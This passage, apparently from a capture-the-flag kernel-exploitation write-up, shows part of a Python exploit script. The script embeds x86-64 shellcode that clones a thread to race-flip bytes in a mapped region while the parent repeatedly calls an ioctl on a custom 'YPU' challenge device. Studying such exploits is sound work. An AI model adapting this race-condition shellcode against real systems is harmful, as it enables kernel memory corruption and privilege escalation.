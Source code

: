 ```python
    
    yancode += b'\x00' * (MAX_YANCODE_SIZE - len(yancode))
    return yancode


SHELLCODE = '''
read_mmap:
mov rbx, {0}
mov rcx, [rbx]
mov [rip + saved_mmap_addr], rcx

do_clone:
mov r9, QWORD PTR fs:0x10
xor r8, r8
lea r10, [r9 + 0x2d0]
xor rdx, rdx
xor rsi, rsi
mov rdi, 0x1200011
mov rax, 56
syscall
cmp rax, 0
jne parent

child:
mov rbx, [rip + saved_mmap_addr]
add rbx, 72
mov cl, {1}
mov dl, {2}

race_loop:
mov byte ptr [rbx], cl
mov byte ptr [rbx], dl
jmp race_loop

parent:

ioctl_loop:
mov rdi, 4
mov rsi, 1337
mov rax, 16
syscall
jmp ioctl_loop

saved_mmap_addr:
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
'''

def load_program(p, program_index, yancode):
    buf = b'load_program '
    buf += str(program_index).encode() + b' '
    p.send(buf)
    p.send(yancode)

def init_ypu(p, ypu_index, program_index, batch=1):
    buf = b'init_ypu '
    buf += str(ypu_index).encode() + b' '
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html